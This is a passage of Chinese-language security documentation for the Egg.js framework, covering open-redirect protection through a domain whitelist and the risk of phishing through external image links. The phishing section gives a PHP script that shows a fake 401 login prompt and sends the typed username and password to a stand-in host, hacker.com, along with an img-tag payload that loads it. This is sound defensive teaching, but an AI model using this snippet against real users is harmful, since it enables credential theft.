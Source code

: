 ### 防范方式

- 若跳转的 url 事先是可以确定的，包括 url 和参数的值，则可以在后台先配置好，url 参数只需传对应 url 的索引即可，通过索引找到对应具体 url 再进行跳转；
- 若跳转的 url 事先不确定，但其输入是由后台生成的（不是用户通过参数传入），则可以先生成好跳转链接然后进行签名；
- 若 1 和 2 都不满足，url 事先无法确定，只能通过前端参数传入，则必须在跳转的时候对 url 进行按规则校验：判断 url 是否在应用授权的白名单内。

框架提供了安全跳转的方法，可以通过配置白名单避免这种风险。

- `ctx.redirect(url)` 如果不在配置的白名单内，则禁止。
- `ctx.unsafeRedirect(url)` 一般不建议使用，明确了解可能带来的风险后使用。

安全方案覆盖了默认的 `ctx.redirect` 方法，所有的跳转均会经过安全域名的判断。

用户如果使用 `ctx.redirect` 方法，需要在应用的配置文件中做如下配置：

```js
// config/config.default.js
exports.security = {
  domainWhiteList: ['.domain.com'], // 安全白名单，以 . 开头
};
```

若用户没有配置 `domainWhiteList` 或者 `domainWhiteList` 数组内为空，则默认会对所有跳转请求放行，即等同于 `ctx.unsafeRedirect(url)`。

### 图片钓鱼

如果可以允许用户向网页里插入未经验证的外链图片，这可能出现钓鱼风险。

比如常见的 `401钓鱼`，攻击者在访问页面时，页面弹出验证页面让用户输入帐号及密码，当用户输入之后，帐号及密码就存储到了黑客的服务器中。
通常这种情况会出现在 `<img src=$url />` 中，系统不对 `$url` 是否在域名白名单内进行校验。

攻击者可以在自己的服务器中构造以下代码：

401.php：作用为弹出 401 窗口，并且记录用户信息。

```php
  <?php
      header('WWW-Authenticate: Basic realm="No authorization"');
      header('HTTP/1.1 401 Unauthorized');
          $domain = "http://hacker.com/fishing/";
          if ($_SERVER['PHP_AUTH_USER'] !== null) {
                  header("Location: ".$domain."record.php?a=".$_SERVER['PHP_AUTH_USER']."&b=".$_SERVER['PHP_AUTH_PW']);
          }
  ?>
```

之后攻击者生成一个图片链接 `<img src="http://xxx.xxx.xxx/fishing/401.php?a.jpg//" />`。

当用户访问时，会弹出信息让用户点击，用户输入的用户名及密码会被黑客的服务器偷偷记录。

### 防范方式

框架提供了 `.surl()` 宏做 url 过滤。

用于在 html 标签中要解析 url 的地方（比如 `<a href=""/>` `<img src=""/>`），其他地方不允许使用。


[egg-view-nunjucks]: https://github.com/eggjs/egg-view-nunjucks
